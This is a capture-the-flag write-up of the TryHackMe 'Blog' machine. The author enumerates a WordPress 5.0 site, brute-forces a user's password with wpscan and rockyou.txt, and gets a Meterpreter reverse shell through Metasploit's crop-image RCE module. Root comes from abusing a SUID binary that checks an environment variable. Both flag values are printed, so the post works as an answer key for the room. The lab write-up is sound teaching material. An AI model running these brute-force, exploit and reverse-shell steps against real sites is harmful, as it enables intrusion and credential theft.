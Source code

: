 ```yaml
---
title: "TryHackMe - Blog"
date: 2025-03-26 12:00:00 +0000
author: scr4tcher
categories: [TryHackMe CTF]
tags: [wordpress, exploitation, metasploit, brute force]

---
```


## Introduction

Billy Joel made a blog on his home computer and has started working on it.  It's going to be so awesome!

Enumerate this box and find the 2 flags that are hiding on it!  Billy has some weird things going on his laptop.  Can you maneuver around and get what you need?  Or will you fall down the rabbit hole...

## Reconnaissance

```console
> nmap -sC -sV -Pn blog.thm  
```
```console
> wpscan --url http://www.blog.thm 
```

## Exploitation
From the scans, I learn that the WordPress version is 5.0, and I launch Metasploit in search of ready-made exploits.


```console
> msfconsole
> search wordpress 5.0
```

I see several potential exploits to use.


```yaml
0   exploit/multi/http/wp_crop_rce                           2019-02-19       excellent  Yes    WordPress Crop-image Shell Upload
   1   exploit/unix/webapp/wp_property_upload_exec              2012-03-26       excellent  Yes    WordPress WP-Property PHP File Upload Vulnerability
   2   exploit/multi/http/wp_plugin_fma_shortcode_unauth_rce    2023-05-31       excellent  Yes    Wordpress File Manager Advanced Shortcode 2.3.2 - Unauthenticated Remote Code Execution through shortcode
   3     \_ target: PHP                                         .                .          .      .
   4     \_ target: Unix Command                                .                .          .      .
   5     \_ target: Linux Dropper                               .                .          .      .
   6     \_ target: Windows Command                             .                .          .      .
   7     \_ target: Windows Dropper                             .                .          .      .
   8   exploit/multi/http/wp_litespeed_cookie_theft             2024-09-04       excellent  Yes    Wordpress LiteSpeed Cache plugin cookie theft
   9     \_ target: PHP In-Memory                               .                .          .      .
   10    \_ target: Unix In-Memory                              .                .          .      .
   11    \_ target: Windows In-Memory                           .                .          .      .
   12  auxiliary/scanner/http/wp_woocommerce_payments_add_user  2023-03-22       normal     Yes    Wordpress Plugin WooCommerce Payments Unauthenticated Admin Creation
   13  auxiliary/scanner/http/wp_registrationmagic_sqli         2022-01-23       normal     Yes    Wordpress RegistrationMagic task_ids Authenticated SQLi

```

In this case, I decide to use **exploit/multi/http/wp_crop_rce**. However, to run it, I will need the username and password of the user.

```yaml
Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    *yes*      The WordPress password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-me
                                         tasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   THEME_DIR                   no        The WordPress theme dir name (disable theme auto-detection if pro
                                         vided)
   USERNAME                    *yes*       The WordPress username to authenticate with
   VHOST                       no        HTTP server virtual host


```

I use this again with **wpscan** 

```console
> wpscan --url blog.thm -P /usr/share/wordlists/rockyou.txt
```

I find two users: **kwheel** and **bjoel** 


```yaml
[i] User(s) Identified:

[+] kwheel
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blog.thm/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] bjoel
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blog.thm/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

```

I will now try to obtain the password for this account using the bruteforce method. I can do this in several ways, for example by using **Hydra**, but in this case, I decided to stick with **WPScan**.

```console
> wpscan --url blog.thm --usernames kwheel --passwords /usr/share/wordlists/rockyou.txt 
```

After a short while, I manage to obtain the password using the bruteforce method.

```yaml
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - kwheel / cutiepie1                                                                              
Trying kwheel / westham Time: 00:01:52 <                           > (2865 / 14347257)  0.01%  ETA: ??:??:??
```

I return to Metasploit to complete the exploit configuration.

```console
> set RHOST [MACHINE_IP]
> set LHOST [MY_IP]
> set password cutiepie1
> set username kwheel
```

and I run it

```console
> exploit
```
It was successful.
```yaml
[*] Meterpreter session 1 opened (10.8.x.x:4444 -> 10.10.x.x32870) at 2025-03-26 09:00:46 -0400
```

I check if I can use commands through Meterpreter : 

```yaml
meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : blog
OS          : Linux blog 4.15.0-101-generic #102-Ubuntu SMP Mon May 11 10:07:26 UTC 2020 x86_64
Meterpreter : php/linux
```

Everything looks fine, so I proceed to the regular system shell

```console
> shell
> script -qc /bin/bash /dev/null
```

I proceed to search the users' files for flags. I find the file **user.txt** in the bjoel directory, but it is not what I'm looking for. There is also a .pdf file here


```yaml
www-data@blog:/home/bjoel$ ls
ls
Billy_Joel_Termination_May20-2020.pdf  user.txt
www-data@blog:/home/bjoel$ cat user.txt
cat user.txt
You won't find what you're looking for here.

TRY HARDER

```

I start a simple Python server on the target machine to download the .pdf file to my computer

```console
> python3 -m http.server
```

and 

```console
> wget http://blog.thm:8000/Billy_Joel_Termination_May20-2020.pdf
```
on my machine.

```console
--2025-03-26 09:15:11--  http://blog.thm:8000/Billy_Joel_Termination_May20-2020.pdf
Resolving blog.thm (blog.thm)... 10.10.73.119
Connecting to blog.thm (blog.thm)|10.10.73.119|:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 69106 (67K) [application/pdf]
Saving to: ‘Billy_Joel_Termination_May20-2020.pdf’

Billy_Joel_Termination_May 100%[========================================>]  67.49K   160KB/s    in 0.4s    

2025-03-26 09:15:11 (160 KB/s) - ‘Billy_Joel_Termination_May20-2020.pdf’ saved [69106/69106]

```

From the email content, I learn that Billy Joel has been fired

```
You have been terminated for the following reasons:
• Repeated offenses regarding company removable media policy
• Repeated offenses regarding company Acceptable Use Policy
• Repeated offenses regarding tardiness
```

## Privilege Escalation
I proceed with the privilege escalation attempt. The first step is to search for SUID files that I can use for escalation.

```console
> find / -perm -u=s -type f 2>/dev/null
```

Among the list of files, my attention was drawn to :

**/usr/sbin/checker**

I try to run it

```console
> usr/sbin/checker
```

However, the program tells me that I am not an administrator

```yaml
/usr/sbin/checker
Not an Admin
```

I analyze the code using the tool **ltrace**

```console
 > ltrace /usr/sbin/checker
 ```
```yaml
getenv("admin")                                  = nil
puts("Not an Admin"Not an Admin
)                             = 13
+++ exited (status 0) +++

```

**getenv("admin) = nil** this means that the **admin** environment variable does not exist at the moment in the process environment. I try to set the admin environment variable manually to attempt to gain administrator privileges.

```bash
> export admin=true
```

And I run the program again.

I have root privileges!

I search through the files on the machine to find and read the flags.

```yaml
root@blog:/# find / -type f -name "user.txt" 2>/dev/null
find / -type f -name "user.txt" 2>/dev/null
/home/bjoel/user.txt
/media/usb/user.txt
```

and 

```console
find / -type f -name "root.txt" 2>/dev/null
```


<br>**user.txt :** c8421899aae571f7af486492b71a8ab7 
<br>**root.txt:**  9a0b2b618bef9bfa7ac28c1353d9f318





During my research, I found a very interesting article about exploiting WordPress sites, which I will post here for future reference.
https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/wordpress.html#xml-rpc